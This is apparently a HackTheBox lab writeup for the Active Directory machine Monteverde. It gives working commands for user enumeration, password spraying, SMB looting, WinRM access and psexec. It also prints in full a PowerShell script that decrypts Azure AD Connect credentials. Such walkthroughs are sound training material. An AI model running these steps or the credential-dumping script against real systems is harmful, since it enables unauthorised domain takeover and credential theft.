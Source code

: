 ```yaml
---
layout: single
title:  "HTB - Monteverde Writeup - 10.10.10.172"
date:   2020-06-19 16:49:23 +0100
categories: hackthebox
excerpt: My walkthrough / writeup of the HTB AD machine Monteverde.
---
```

![HTB](/images/monteverde/2020-06-19_14-43.png)

# HackTheBox - Monteverde - 10.10.10.100

Monteverde is a 30 point medium rated machine on hackthebox, that involves using rpcclient with null authentication to pillage domain usernames, then using hydra to use those usernames and usernames as passwords to find valid credentials. Once found we find the password for user `mhope` in a SMB share and we use his credentials to get a shell on the box. Once we are `mhope` we find he is a memeber of the Azure AD Admins groups so we can use a powershell script to decrypt the admin's credentials from the SQL database used by Azure AD Sync.

## 1. Recon 
To start this box off we will do an nmap scan of the target machine, 10.10.10.172  `nmap -sC -sV -oA nmap/monteverde 10.10.10.172` 
### Nmap Scan Results
```
Nmap scan report for 10.10.10.172
Host is up (0.061s latency).
Not shown: 989 filtered ports
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-01-24 18:36:21Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=1/24%Time=5E2B36F6%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 9m22s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-01-24T18:38:12
|_  start_date: N/A
```
Some ports of note here are:
1. RPC - Maybe we can get null authentication 
2. SMB - Maybe some useful files
3. LDAP - ldapquery?

### RPC Enumeration
Firstly we will try to get a connection to rpc with null authentication, using rpcclient: 
`rpcclient -U "" 10.10.10.172` `enumdomusers`
![rpc](/images/monteverde/2020-06-19_14-34.png)

Bingo, now we have a list of users!

## 2. Finding some credentials
Now we have a list of usernames we can try to bruteforce login credentials, using those usernames as passwords, first save the usernames to a file like this:
![usersfile](/images/monteverde/2020-06-19_14-37.png)

We can then use crackmapexec to bruteforce smb logins, if you want to read more about cme then the link to the github page is [here](https://github.com/byt3bl33d3r/CrackMapExec).

If we pass the arguments -u for users file and -p for password file, we can bruteforce logins:

`crackmapexec smb 10.10.10.172 -u usersfile.txt -p passfile.txt`
![cme](/images/monteverde/2020-06-19_14-49.png)
Nice, we got a valid login using the credentials, `SABatchJobs:SABatchJobs`, we can now try to enumerate the smb shares.

## 3. Getting More Credentials

### SMB Enumeration
To list all the smb shares we will use smbclient, which is built into Kali.

`smbclient -U "SABatchJobs" -L \\10.10.10.172`
![shares](/images/monteverde/2020-06-19_14-53.png)

The one share that stands out is the users$, as it is not a default Windows share like SYSVOL or IPC$

Let's try and connect using our credentials
`smbclient -U "SABatchJobs" \\\\10.10.10.172\\users$`
![smb-share](/images/monteverde/2020-06-19_15-01.png)

Nice, we can see the files in the users$ share, lets download all the files and see if there is anything interesting
`prompt OFF`, `recurse ON`, `mget *`
![files](/images/monteverde/2020-06-19_15-04.png)

The only file in the share was an `azure.xml` file, let;s see what's inside
`cat azure.xml`
![epic](/images/monteverde/2020-06-19_15-06.png)

Bingo! We have the password for the user `mhope`.

### Getting User
Now that we have the password for the user `mhope` we can try to login over winrm, for this I will be using a tool called [evil-winrm](https://github.com/Hackplayers/evil-winrm).

`evil-winrm -i 10.10.10.172 -u mhope -p 4n0therD4y@n0th3r$`

![htb](/images/monteverde/user.gif)

## 4. Privesc to Domain Admin

Now that we have a shell we can do some enumeration, firstly, `whoami /all`
![whoami](/images/monteverde/2020-06-19_15-24.png)

We can see we are a part of the azure admins, this means that with the right commands or script we can dump the admin password from the mssql database that Azure AD Connect uses, there is a great article by XPNSec that explains this [here](https://blog.xpnsec.com/azuread-connect-for-redteam/). So if we use the powershell script from the blog but with the connection string changed to work with this DB we should be good. Allternativly I will use a tool made by [fox-it on github](https://github.com/fox-it/adconnectdump), to decrypt the password as I could not get the powershell script to work for me. 

Here is the script the exe is based on:

{% highlight powershell %}
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Database=ADSync;Integrated Security=True"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)
$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerXML}}
Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
{% endhighlight %}

Now if we save the exe and dll from the fox-it github to our local machine, we can upload it using evil-winrm to the box

![upload](/images/monteverde/2020-06-19_15-46.png)

Now if we naviagate to: `C:\Program Files\Microsoft Azure AD Sync\Bin` and run `\Users\mhope\Documents\AdDecrypt.exe -FullSQL` we get the admin credentials

![creds](/images/monteverde/2020-06-19_15-51.png)

Now we can just use these creds to psexec into the box and grab the root flag

## Pwned

`psexec.py megabank/Administrator:"d0m@in4dminyeah!"@10.10.10.172`

![root](/images/monteverde/root.gif)

If you enjoyed my write up or found it useful please check out my htb profile linked below and give a +rep

[![HTB](http://www.hackthebox.eu/badge/image/210952.png)](https://www.hackthebox.eu/home/users/profile/210952)

